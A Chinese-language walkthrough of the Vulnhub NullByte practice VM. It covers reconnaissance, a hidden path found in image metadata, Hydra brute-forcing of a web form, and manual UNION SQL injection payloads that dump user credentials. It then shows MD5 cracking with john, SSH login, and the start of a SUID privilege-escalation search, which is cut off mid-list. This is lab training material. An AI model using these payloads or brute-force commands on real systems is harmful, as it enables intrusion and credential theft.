# 前言

### **靶场介绍：**

Vulnhub 的一台靶机，难度 basic to intermediate。对 SQL 注入的利用方式进行多种练习，提权部分学习了 SUID 提权的利用方式。

Nullbyte，涉及 Hydra 表单暴力破解，John md5 哈希暴力破解，手工 SQL 注入数据库信息猜解、SQL 注入数据库写入一句话木马、写入反弹 shell，使用 SQLmap 自动化注入，可谓 SQL 注入技能大赏。提权用具有 SUID 权限的可执行文件，执行我们写入的 shell 的方式实现。

**Download**: [http://ly0n.me/nullbyte/NullByte.ova.zip](http://ly0n.me/nullbyte/NullByte.ova.zip)

### **涉及工具：**

- nmap
- dirsearch
- hydra
- sqlmap
- exiftool

---
# 1.信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
80/tcp    open  http
111/tcp   open  rpcbind
777/tcp   open  multiling-http
43104/tcp open  unknown
```

### 详细信息

```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Null Byte 00 - level 1
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43104/tcp   status
|   100024  1          49883/udp   status
|   100024  1          50993/udp6  status
|_  100024  1          55550/tcp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)
43104/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:93:78:0C (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 26 02:11:14 2026 -- 1 IP address (1 host up) scanned in 13.00 seconds
```

> [!tip] 知识触发 
>  详细扫描中发现 111 端口，存在 RPC 服务。此时 TCP 扫描探测到 RPC 后，**必须立刻追加 UDP 扫描**，因为很多实际挂载的脆弱服务（如 NFS）仅支持或高度依赖 UDP。

### UDP 扫描

```bash
111/udp   open   rpcbind
777/udp   closed multiling-http
43104/udp closed unknown
```

---
## 1.2 Web 信息收集

### 页面信息检索

访问 `http://192.168.200.147/`，页面仅显示一张图片和一句话，表面上没有明显的有用信息。可以查看页面源码，排查是否有遗漏的线索。


#### **页面源码：**

```html
<html>
<head><title>Null Byte 00 - level 1</title></head>
<body>
<center>

<p> If you search for the laws of harmony, you will find knowledge. </p>
</center>  
</body>
</html>
```

简单排查下来就是一个很正常的页面，一张图片加一句话，没有什么可以利用的点。

---
### 目录爆破

#### 命令：

```bash
dirsearch -u "http://192.168.200.147" -o dir_147.txt
```



#### **扫描到可用目录**

对目标进行目录扫描，发现了以下可用路径：

```bash
301   323B   http://192.168.200.147/javascript/
301   323B   http://192.168.200.147/phpmyadmin/
200     9KB  http://192.168.200.147/phpmyadmin/index.php
200   110B   http://192.168.200.147/uploads/
```

**phpMyAdmin 测试**：

访问 `/phpmyadmin/index.php`，尝试了几组默认凭据，但**无法登入**。需考虑后续是否进行弱口令爆破或寻找配置文件。



**Uploads 目录**：

访问 `/uploads/` 提示 `Directory listing not allowed here.`。目前无法直接查看该目录下的文件，可能需要后续结合文件上传漏洞进行利用。



---
### 回看首页

爆破的目录中没有尝试到可以获取立足的点，回看首页中的图片，下载图片，去分析一下图片中有没有藏有隐写的信息。

**下载图片：**



#### **查看隐写信息**

```bash
exiftool main.gif
```



#### **隐写内容：**

```bash
ExifTool Version Number         : 13.25
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2015:08:01 12:39:30-04:00
File Access Date/Time           : 2026:03:26 07:06:13-04:00
File Inode Change Date/Time     : 2026:03:26 07:05:47-04:00
File Permissions                : -rw-rw-r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

在 comment 信息中的一段字符引起了我的注意。这串字符有何用途？是 phpmyadmin 的密码？是 ssh 的登入密码？是网页路径？我决定去逐一进行尝试。

> Comment : P-): kzMb5nVYJw

#### 新的目录 (/kzMb5nVYJw)

在尝试将其作为 Web 目录路径进行拼接访问时，页面成功响应，这确认了该字符串确实是一个隐藏路径。访问该页面后，发现一个带有 "key" 提示的输入框，似乎需要输入某种密码或密钥。




看页面源码提示有这样一句话

> 此表单未连接至 MySQL，密码也并不复杂。



手工盲猜了几次常见弱密码均未成功，考虑到提示说密码不复杂，我决定使用 Hydra 配合字典进行暴力破解。

```bash
hydra 192.168.200.147 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l ok -P /usr/share/wordlists/rockyou
```



> 密码：elite

进入到新的页面



提交表单后页面发生了跳转，去查看当前页面的源码，看看表单指向的地址是哪里：




> 同样一个页面怎么可以显示两种内容，有其他的方法绕过吗，后续查看源码。


跳转的页面可以直接访问：`http://192.168.200.147/kzMb5nVYJw/420search.php`。不过这并没有太多影响，可以看出显示了两段用户的信息。



于是退回前一个页面（认证后的搜索页）尝试输入测试字符。这个搜索框很可能存在注入点，接下来我将重点针对此处进行 SQL 注入测试。



---

# 2. SQL 注入获取凭证

### Union 注入查询

> 下面是一次非常常见的 union 注入查询，关于详细的 union 查询请看：[0x002-union 联合注入](0x002-union联合注入.md)

验证是否存在注入点，并尝试探测闭合符号：

```
?usrtosearch="
```



测试当前表的列数，并寻找页面上的回显位：

```
?usrtosearch=" union select 1,2,3 -- -
```



确定回显位后，开始探测数据库的基础信息，发现当前数据库名为 `seth`：

```
?usrtosearch=" union select @@version(),user(),database() -- -
```



顺藤摸瓜，继续查询表名，发现了 `users` 表：

```
?usrtosearch=" union select 1,2,group_concat(table_name) from information_schema.tables 
where table_schema=database() -- -
```



进一步查询 `users` 表中的列名，成功获取到 `id`, `user`, `pass`, `position` 等关键字段：

```
?usrtosearch=" union select 1,2,group_concat(column_name) from information_schema.columns 
where table_schema=database() and table_name='users' -- -
```



目标明确，直接构造 payload 开始提取数据（脱库）：

```
?usrtosearch=" union select 1,2,group_concat(id,'|',user,'|',pass,'|',position,'<br>') from seth.users -- -
```



梳理得到以下数据。根据之前获取的字段结构可以判断，其中这串较长的字符应该就是该用户的密码

```bash
 1|ramses|YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE|  
,2|isis|--not allowed--|employee
```


### 破解字符串

base64解码

> decode: c6d6bd7ebf806f43c76acc3681703b81



hash-identifier 检查解密出来的字符属性，工具判断出来之前 base64 解密出来的字符属于 md5 值，继续解密



使用 john 爆破...

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_md5.txt
```




得到解密出来的密码：

> ramses:omega

拿到明文凭据后，尝试使用该用户名和密码通过 SSH 服务登录目标机：

```bash
ssh ramses@192.168.200.160 -p 777
```

登入成功



---
# 3.权限提升

尝试查看当前用户的 `sudo` 权限，系统反馈显示当前用户 `ramses` 并不在 sudoers 列表中，无法直接通过 sudo 提权。



### 尝试提权

既然常规路径走不通，我决定转向 SUID 提权思路，搜索系统中配置了 SUID 权限的可执行文件。

```bash
find / -perm -u=s -type f 2>/dev/null
```

参数含义：

- `find /`：从系统最底层的根目录（`/`）开始地毯式搜索。
    
- `-perm -u=s`：寻找带有 **SUID (Set Owner User ID)** 权限的文件。
    
- `-type f`：只查找普通文件（排除目录、链接等）。
    
- `2>/dev/null`：将系统报错（比如常见的“Permission denied”权限拒绝提示）直接丢弃。这样你的屏幕上就只会出现成功找到的结果，不会被垃圾信息淹没。

> [!tip] 
>**提权的时候为什么要这么做？** 在 Linux 系统中，如果一个程序被设置了 SUID 权限，且它的所有者是 `root`，那么无论谁运行这个程序，**程序在运行的这一瞬间都会“临时借用” root 的最高权限**。 提权的核心思路就是：找到这些拥有 SUID 的程序，然后想办法让它“不务正业”，去执行我们想要的恶意代码（比如弹出一个 root 权限的 bash shell）。

查询到的内容：

```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
